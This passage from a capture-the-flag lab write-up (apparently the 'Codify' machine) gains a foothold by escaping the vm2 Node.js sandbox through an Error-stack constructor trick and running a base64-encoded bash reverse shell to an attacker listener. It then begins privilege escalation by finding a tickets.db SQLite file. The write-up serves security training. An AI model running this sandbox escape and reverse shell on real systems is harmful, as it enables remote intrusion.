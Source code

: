 ## **Foothold**

Let's change the command to a reverse shell.

```bash
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

> Change the ip address in the command

We base64 encode the command.

```bash
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQvOTAwMSAwPiYx
```

To get it executed we pip it to `base64 -d` and then `bash` like the following:

```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQvOTAwMSAwPiYx|base64 -d|bash
```

Now we put the command in the node js code like this:

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjQvOTAwMSAwPiYx|base64 -d|bash');
}
`

console.log(vm.run(code))
```

We setup a listener and run the code.

![revshell](5.png)

## **Privilege Escalation**

### svc -> joshua

After looking around the system for some useful things, we find a db file in the web directory.

```terminal
svc@codify:~$ cd /var/www/
svc@codify:/var/www$ ls
contact  editor  html
svc@codify:/var/www$ cd contact/
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
svc@codify:/var/www/contact$ 
```
